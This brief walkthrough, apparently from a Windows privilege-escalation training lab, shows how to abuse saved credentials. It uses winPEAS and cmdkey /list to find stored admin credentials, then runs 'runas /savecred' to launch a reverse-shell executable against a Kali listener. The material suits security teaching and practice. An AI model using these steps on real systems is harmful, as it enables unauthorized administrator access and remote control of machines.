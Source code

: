 1.Use winPEAS to check for saved credentials:
> .\winPEASany.exe quiet cmd windowscreds


2.It appears that saved credentials for the admin user exist.


3.We can verify this manually using the following command:
> cmdkey /list

4.If the saved credentials aren’t present, run the following script to refresh the credential:
> C:\PrivEsc\savecred.bat


5.We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:


> runas /savecred /user:admin
C:\PrivEsc\reverse.exe